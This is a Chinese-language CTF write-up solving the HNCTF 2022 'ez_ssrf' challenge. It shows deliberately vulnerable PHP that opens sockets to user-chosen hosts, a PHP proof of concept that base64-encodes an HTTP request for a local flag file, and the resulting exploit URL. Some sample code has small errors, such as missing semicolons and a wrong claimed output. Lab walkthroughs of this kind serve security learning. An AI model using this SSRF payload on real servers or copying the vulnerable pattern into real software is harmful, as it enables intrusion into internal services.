 @[TOC](文章目录)

# 一、前言
今天在打CTF的时候碰到了一道有关ssrf漏洞的题，以前做的也不多，今天就来记录一下
# 二、相关知识
先来简单的介绍一下ssrf漏洞<br />
ssrf中文名叫做`服务端请求伪造`<br />
正常的处理请求过程是：用户发送请求-->服务端处理请求-->服务端像客户端返回请求<br />
该漏洞产生的原因是在第一步的时候，发送一个恶意url的请求，这个url指令是让服务器查询自己内部数据库，当服务端处理这个恶意的请求后，就会将查询后的结果发送给客户端<br />
# 三、题目复现
## 1.题目名称
[HNCTF 2022 WEEK2]ez_ssrf
## 2.解题过程
先用dirsearch扫描一下
![img.png](pics/img_1.png)
发现了/flag.php这个目录，访问一下这个目录
![img.png](pics/img.png)
这句话就暗示了在本地使用<br />
另外题目上有提示，拼接一下路径index.php。<br />
得到本题的php源码
```
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
die();
}
else {
fwrite($fp,$data);
while(!feof($data))
{
echo fgets($fp,128);
}
fclose($fp);
}
```
`fsockopen函数`的作用就是打开一个网址，此时ssrf漏洞已经显现出来了<br />
我们就开始构造POC吧<br />
记住POC几个必须有的参数：connection,host
```declarative
<?php
$out = "GET /flag.php HTTP/1.1\r\n"
$out .= "HOST: 127.0.0.1\r\n"
$out .= "Connection:close\r\n"
echo base64_encode($out)
?>
```
GET后面的HTTP/1.1表示HTTP协议的版本,`\r\n`表示换行<br />
`Connection:close`表示将连接关闭。在HTTP/1.1协议中，每一段连接都会保证keep-alive,以保证可以复用。但我们这里只需要执行请求后，关闭就好<br />
`.=`表示将字符串拼接运算符<br />
举一个例子
```declarative
$a = "hello";
$a .= "world";
echo $a;    //输出hello world
```
运行一下，得出data的参数值，随后构造URL为<br />
`/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=`